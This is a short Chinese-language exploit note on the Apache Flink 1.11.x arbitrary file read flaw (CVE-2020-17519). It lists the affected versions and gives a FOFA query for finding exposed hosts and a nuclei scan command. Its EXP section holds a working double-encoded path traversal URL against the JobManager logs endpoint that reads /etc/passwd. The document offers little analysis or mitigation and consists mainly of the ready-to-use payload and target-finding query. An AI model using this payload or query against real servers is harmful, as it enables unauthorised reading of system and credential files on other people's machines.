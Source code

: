 ## 漏洞概述
Apache Flink 1.11.0中引入的一个更改，允许攻击者通过JobManager进程的REST接口读取JobManager本地文件系统上的任何文件。

## 影响范围
```http
版本：
Apache Flink 1.11.0
Apache Flink 1.11.1
Apache Flink 1.11.2
FOFA: app="APACHE-Flink"
```

## POC
```bash
nuclei.exe -tags apache -t cves/ -stats -u http://test.com:8081
```

## EXP

```http
http://your-ip:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

## 参考链接

[CVE-2020-17519 & CVE-2020-17518 分析](https://xz.aliyun.com/t/8993?page=1)